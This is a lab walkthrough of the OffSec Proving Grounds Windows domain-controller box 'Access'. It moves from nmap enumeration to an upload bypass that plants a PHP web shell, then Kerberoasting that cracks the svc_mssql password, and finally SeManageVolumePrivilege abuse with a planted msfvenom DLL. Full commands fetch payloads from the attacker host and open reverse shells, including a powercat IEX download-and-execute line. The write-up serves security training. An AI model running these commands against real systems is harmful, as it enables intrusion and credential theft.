

# Network Enumeration

```bash
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-22 15:43:59Z)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
```

# Port Enumeration

## 80

`Buy Tickets` to upload bypass. `filename="shell.php::$DATA"`


Then can running commands.


Download the webshell.

```bash
http://192.168.248.187/uploads/shell.php?cmd=powershell%20-c%20iwr%20-uri%20http://192.168.45.159/reverse_shell_windows.php%20-o%20reverseshell.php
```


Then get shell.


# PE

## Basic Information

### System

```
Microsoft Windows Server 2019 Standard 10.0.17763 N/A Build 17763
```

### Vulnerability Information

```
[*] Enumerating installed KBs...
 [!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-0841 : VULNERABLE
  [>] https://github.com/rogue-kdc/CVE-2019-0841
  [>] https://rastamouse.me/tags/cve-2019-0841/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1253 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2019-1253
  [>] https://github.com/sgabe/CVE-2019-1253

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1385 : VULNERABLE
  [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 12 potential vulnerabilities.

```

### TCP Ports


## Check other users

The `local.txt` isn't in the `svc_apache\desktop`.


But can find another user live in `C:\users\`


Try to use `Get SPN` to get more information.

The SPN of the `MSSQL` object was now obtained: `MSSQLSvc/DC.access.offsec`. The next step was to request the ticket from "svc_mssql" and get the hash from the ticket.


To request the ticket, two commands can be executed to request and store the ticket in the memory.

```powershell
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
```


To get the kerberoast hash of the ticker, `Invoke-Kerberoast.ps1` is needed to extract the hash from memory, Download from [GitHub](https://github.com/EmpireProject/Empire)

```powershell
PS C:\Users\svc_apache> iwr -uri http://192.168.45.183/Invoke-Kerberoast.ps1 -o Invoke-Kerberoast.ps1
iwr -uri http://192.168.45.183/Invoke-Kerberoast.ps1 -o Invoke-Kerberoast.ps1
PS C:\Users\svc_apache> . .\Invoke-Kerberoast.ps1
PS C:\Users\svc_apache> Invoke-Kerberoast -OutputFormat Hashcat
```

Then will get the hash value.


Edit the format to prepare crack this hash.


Use mode `13100` to crack this hash. Finally get the password is `trustno1`



Use `crackmapexec` to test if this password is vaild.


Then Use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to try to runnnig `whoami`.

```powershell
PS C:\Users\svc_apache> iwr -uri http://192.168.45.183/Invoke-RunasCs.ps1 -o Invoke-RunasCs.ps1
PS C:\Users\svc_apache> . .\Invoke-RunasCs.ps1
PS C:\Users\svc_apache> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
[*] Warning: The logon for user 'svc_mssql' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
access\svc_mssql
```


Now can use this way to reverse shell.

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183/powercat.ps1');powercat -c 192.168.45.183 -p 4444 -e cmd"
```


Get `svc_mssql` reverse shell.

## Check svc_mssql permission


The `SeManageVolumePrivilege` privilege was set to enabled on the `svc_mssql` user, which was interesting.

I found a [SeManageVolumeAbuse](https://github.com/xct/SeManageVolumeAbuse) GitHub repo that can be used in this circumstance.

The general idea is that the attacker can leverage this particular privilege with the exploitation to get full control over `C:\`, and then it can craft a `.dll` file and place it in somewhere `C:\Windows\System32\` to trigger the payload as root.

I then downloaded the binary executable from [here](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) and transferred it to the machine.

After running the exploit, I could see I was able to write to the `C:\Windows\System32\` folder.


I made a reverse shell payload through `msfvenom`.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/access]
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=6666 -f dll -o tzres.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: tzres.dll
```

Transfer to target machine.


In the last step, I ran `systeminfo` to trigger the payload. Then get administrator shell.


# Refer

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d
